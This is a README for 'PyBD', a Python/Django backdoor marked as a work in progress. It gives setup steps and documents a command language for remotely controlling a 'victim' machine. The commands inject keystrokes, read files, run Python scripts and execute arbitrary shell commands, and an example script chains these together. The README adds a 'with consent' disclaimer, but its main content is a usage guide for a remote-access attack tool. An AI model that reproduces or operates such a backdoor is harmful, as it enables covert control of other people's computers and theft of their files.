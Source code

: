 # PyBD
<h1>Work in Progress</h1>
<h1>DO IT ON YOUR OWN RISK AND WITH CONSENT</h1>
<h4>We are not responsible for any damage you do</h4>
Backdoor made with python, django, sqlite (WIP)

<h1>What is a backdoor?</h1>
Basically you can gain access to another persons computer.



<h1>Usage:</h1>
<h4>First install all the libraries you need for this</h4>
<pre>pip install -r requirments.txt</pre>
<h4>Than, you need to start the server</h4>
<pre>cd server</pre>
<pre>python manage.py runserver</pre>
<h4>Run the main.py on the target machine</h4>
<pre>cd client</pre>
<pre>python main.py</pre>


<h1>Language</h1>


Will type hello and bye on the victims computer
<pre>
keyboard:"
Hello
bye
";
</pre>

<h4>Read files</h4>
<pre>read: "test.txt"</pre>
<h4>Read multiple files (infinite amount)</h4>
<pre>read: "file_name", "filename_2"</pre>

<h4>Running python scripts</h4>
<pre>python: "
print("hello world")
";
</pre>

<h4>Anything other will be interpurted as a cmd command</h4>
<pre>
cd ..
dir
</pre>

<h1>Example</h1>
<pre>
keyboard:"
`ctrl + n`
www.youtube.com
`enter`
";

delay:5

keyboard:"
`alt + f4`
";

cd ..

read: test.txt, test1.txt

python:"
print("hello world")
";
</pre>
